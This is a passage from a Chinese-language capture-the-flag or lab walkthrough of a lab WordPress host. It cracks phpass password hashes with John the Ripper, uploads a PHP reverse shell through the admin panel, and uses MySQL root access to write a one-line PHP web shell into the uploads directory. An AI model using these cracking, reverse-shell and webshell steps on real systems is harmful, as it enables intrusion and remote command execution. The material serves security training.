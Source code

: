 随便丢一个上去发现是`MD5`加密的。

使用`John`进行解密：

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt password
# Using default input encoding: UTF-8
# Loaded 16 password hashes with 16 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
# Cost 1 (iteration count) is 8192 for all loaded hashes
# Will run 4 OpenMP threads
# Press 'q' or Ctrl-C to abort, almost any other key for status
# cookie           (?)     
# monkey           (?)     
# football         (?)     
# coolgirl         (?)     
# washere          (?)     
# incorrect        (?)     
# thumb            (?)     
# 0520             (?)     
# passphrase       (?)     
# damachine        (?)     
# ylle             (?)     
# partyqueen       (?)     
# 12g 0:00:30:07 DONE (2024-02-02 04:16) 0.006637g/s 7932p/s 38138c/s 38138C/s !!!@@@!!!..*7¡Vamos!
# Use the "--show --format=phpass" options to display all of the cracked passwords reliably
# Session completed. 
```

密码爆破出来了！寻找一下后台，之前`wpscan`好像扫到了：

```css
https://192.168.244.178:12380/blogblog/wp-login.php?action=register
https://192.168.244.178:12380/blogblog/wp-login.php
```

第一个就可以登进去了（后来看师傅们写的wp好像其他的都登不进去，嘿嘿）

![image-20240202170947321](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200977.png)

进入后台了，尝试上传一个反弹shell。

![image-20240202171140218](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200978.png)

上传上去了，打开可以看到：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200979.png" alt="image-20240202171632363" style="zoom:50%;" />

监听1234端口，执行`reverseShell.php`收取反弹shell：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200980.png" alt="image-20240202171826298" style="zoom:50%;" />

获取到了反弹shell。

### mysql写入木马

```shell
mysql -uroot -pplbkac -h 192.168.244.178 
 
SELECT "<?php system($_GET['hack']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/webshell.php";
# Query OK, 1 row affected (0.001 sec)
```
